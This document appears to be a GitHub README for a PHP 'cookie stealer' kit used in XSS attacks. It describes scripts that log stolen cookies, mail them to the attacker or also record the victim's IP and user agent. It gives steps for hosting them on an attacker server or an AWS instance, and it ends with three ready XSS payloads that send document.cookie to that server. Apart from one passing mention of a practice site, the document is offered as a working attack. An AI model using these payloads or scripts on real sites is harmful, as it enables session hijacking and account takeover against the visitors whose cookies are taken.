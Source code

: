 # hacksudo-cookies-stealer
here we created PHP Cookie Stealing Scripts which use in XSS/stored/relfect

1. **Cookiesteal-simple.php** - Records whatever "c" parameter holds, in example case the **document.cookie string,** writes value to **log.txt.** 

2. **Cookiemail.php** - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (**verbose**) - **Collects the IP address, port numbe**r, **host**(usually computer-name), user agent and cookie.

## How To Usage
1. On the remote attacker machine, start the webserver (Apache2 in example),or you can use PHP server
php -S attackerIP:80 ( user attacker ip , and port you can use 8080 also , but remeber your apache2 is stop )
do this command at same path where you took your cookies script done your ready now ...
now find XSS site , for practice purpose you can use Beebox , which is available at www.root-me.org , get XSS and use XSS paylaod which is given below of this README

enjoy :D 
www.hacksudo.com/contact
vishal@hacksudo.com
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/hacksudo/hacksudo-cookies-stealer

cd hacksudo-cookies-stealer

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
